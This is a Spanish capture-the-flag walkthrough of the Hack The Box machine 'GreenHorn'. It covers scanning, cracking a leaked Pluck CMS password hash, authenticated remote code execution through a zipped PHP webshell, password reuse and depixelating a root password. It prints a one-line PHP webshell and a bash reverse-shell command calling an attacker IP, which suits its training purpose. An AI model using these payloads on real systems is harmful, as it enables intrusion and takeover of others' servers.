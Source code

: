 ```yaml
---
title: GreenHorn - Hack The Box
date: 2024-10-06
description: Maquina GreenHorn (Easy) de Hack The Box.
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
media_subpath: /assets/img/commons/greenhorn/
image: greenhorn.png
---
```


## Escaneo

```bash
nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn 10.10.11.23 -oG allPorts
```

Puertos abiertos: 22,80,3000,4446,8000

## Análisis

```bash
nmap -sCV -p22,80,3000,4446,8000 10.10.11.25 -oN targeted

22/tcp   open  ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http      nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
4446/tcp open  n1-fwp?
8000/tcp open  http-alt?
```

El puerto 80 da acceso a la web de "http://greenhorn.htb", sin nada destacable.

Whatweb tampoco añade mayor información:
```bash
whatweb http://greenhorn.htb

http://greenhorn.htb [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.25], RedirectLocation[http://greenhorn.htb/?file=welcome-to-greenhorn], nginx[1.18.0]
http://greenhorn.htb/?file=welcome-to-greenhorn [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.25], MetaGenerator[pluck 4.7.18], Pluck-CMS[4.7.18], Title[Welcome to GreenHorn ! - GreenHorn], nginx[1.18.0]
```

Enumerando con nmap se ven los siguientes directorios. Destacable los ficheros "login.php" y "admin.php":
```bash
nmap --script http-enum -p80 10.10.11.25 -oN webScan
80/tcp open  http
| http-enum: 
|   /admin.php: Possible admin folder
|   /login.php: Possible admin folder
|   /robots.txt: Robots file
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /cwhp/auditLog.do?file=..\..\..\..\..\..\..\boot.ini: Possible CiscoWorks (CuOM 8.0 and 8.5) Directory traversal (CVE-2011-0966) (Windows)
|   /cwhp/auditLog.do?file=..\..\..\..\..\..\..\Program%20Files\CSCOpx\MDC\Tomcat\webapps\triveni\WEB-INF\classes\schedule.properties: Possible CiscoWorks (CuOM 8.0 and 8.5) Directory traversal (CVE-2011-0966) (Windows)
|   /cwhp/auditLog.do?file=..\..\..\..\..\..\..\Program%20Files\CSCOpx\lib\classpath\com\cisco\nm\cmf\dbservice2\DBServer.properties: Possible CiscoWorks (CuOM 8.0 and 8.5) Directory traversal (CVE-2011-0966) (Windows)
|   /cwhp/auditLog.do?file=..\..\..\..\..\..\..\Program%20Files\CSCOpx\log\dbpwdChange.log: Possible CiscoWorks (CuOM 8.0 and 8.5) Directory traversal (CVE-2011-0966) (Windows)
|   /CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../../../web.config: Cute Editor ASP.NET Remote File Disclosure ( CVE 2009-4665 )
|   /docs/README: Interesting, a readme.
|_  /data/: Potentially interesting folder
```

## Explotación

Accediendo a la maquina por el puerto 3000 se accede a un repositorio Gitea en el que se puede ver el código del CMS Pluck. En la carpeta "/data/settings/" se puede ver el fichero "pass.php" con la contraseña encriptada en sha512:

```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

Pasando la clave a un desencriptador como [CrackStation](https://crackstation.net/) se obtiene la contraseña: `iloveyou1` que da acceso al panel del CMS.

En "http://greenhorn.htb/login.php" se puede ver un formulario de ingreso del CMS "Pluck" en versión 4.7.18.

Una busqueda de Exploits para Pluck arroja un RCE [CVE-2023-50564](https://nvd.nist.gov/vuln/detail/CVE-2023-50564) para la versión 4.7.18:

```bash
searchsploit pluck
---------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                   |  Path
---------------------------------------------------------------------------------------------------------------
Pluck CMS 4.5.1 (Windows) - 'blogpost' Local File Inclusion                      | php/webapps/6074.txt
Pluck CMS 4.5.2 - Multiple Cross-Site Scripting Vulnerabilities                  | php/webapps/32168.txt
Pluck CMS 4.5.2 - Multiple Local File Inclusions                                 | php/webapps/6300.txt
Pluck CMS 4.5.3 - 'g_pcltar_lib_dir' Local File Inclusion                        | php/webapps/7153.txt
Pluck CMS 4.5.3 - 'update.php' Remote File Corruption                            | php/webapps/6492.php
Pluck CMS 4.6.1 - 'module_pages_site.php' Local File Inclusion                   | php/webapps/8271.php
Pluck CMS 4.6.2 - 'langpref' Local File Inclusion                                | php/webapps/8715.txt
Pluck CMS 4.6.3 - 'cont1' HTML Injection                                         | php/webapps/34790.txt
Pluck CMS 4.7 - Directory Traversal                                              | php/webapps/36986.txt
Pluck CMS 4.7 - HTML Code Injection                                              | php/webapps/27398.txt
Pluck CMS 4.7 - Multiple Local File Inclusion / File Disclosure Vulnerabilities  | php/webapps/36129.txt
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)             | php/webapps/49909.py
Pluck CMS 4.7.16 - Remote Code Execution (RCE) (Authenticated)                   | php/webapps/50826.py
Pluck CMS 4.7.3 - Cross-Site Request Forgery (Add Page)                          | php/webapps/40566.py
Pluck CMS 4.7.3 - Multiple Vulnerabilities                                       | php/webapps/38002.txt
Pluck v4.7.18 - Remote Code Execution (RCE)                                      | php/webapps/51592.py
pluck v4.7.18 - Stored Cross-Site Scripting (XSS)                                | php/webapps/51420.txt
---------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```

El exploit se basa en, una vez logeado en el panel de administración de Pluck, se aprobecha de la utilidad de instalación de modulos del CMS para subir un fichero .php malicioso comprimido en .zip.
El fichero es subido a "/admin.php?action=installmodule" que devuelve el nombre del "modulo", que posteriormente será usado para localizar el fichero .php malicioso en la carpeta "/data/modules/{nombre del modulo}/php_malicioso.php".

Haciendo uso del Exploit de [GitHub](https://github.com/opabravo/pluck-cms-rce) para automatizar la tarea, se pasan como parametros la URL del sitio, la contraseña obtenida anteriormente del fichero "pass.php" y el fichero .php malicioso. En este caso un rce.php con ``<?=`$_REQUEST[0]`;``:

```bash
python exploit.py -u http://greenhorn.htb -p 'iloveyou1' -f rce.php
[*] Logging in
[*] Uploading module
[+] Webshell uploaded to http://greenhorn.htb/data/modules/mdwqwwwl/x.php
```

Pasando una Reverse Shell como parametro se obtiene acceso a la maquina con el usuario www-data:
```bash
http://greenhorn.htb/data/modules/mdwqwwwl/x.php?0=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.15.23/443%200%3E%261%22
```

## Escalada

### User

En la carpeta "/home/" se pueden ver dos usuarios, "git" y "junior". Verificando la reutilización de la contraseña de Pluck se accede como usuario junior.

Este usuario tiene permisos para leer la User FLag.

### Root

Dentro del directorio "/home/junior" existe un documento PDF llamando "Using OpenVAS.pdf" que informa de la reciente instalación de OpenVAS y la contraseña. Pero esta contraseña se encuenta pixelada.

Descargando el pdf a la maquina local levantando un servidor http en python
```python
python3 -m http.server
```

Pasando el pdf a imagen con pdfimages:
```bash
pdfimages Using\ OpenVAS.pdf img
```

Y pasando la imagen generada por un depixelador como depix se obtiene la contraseña de root "sidefromsidetheothersidesidefromsidetheotherside":
```bash
python depix.py -p img-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
```

Accediendo por ssh como root se tiene acceso a la Root Flag.
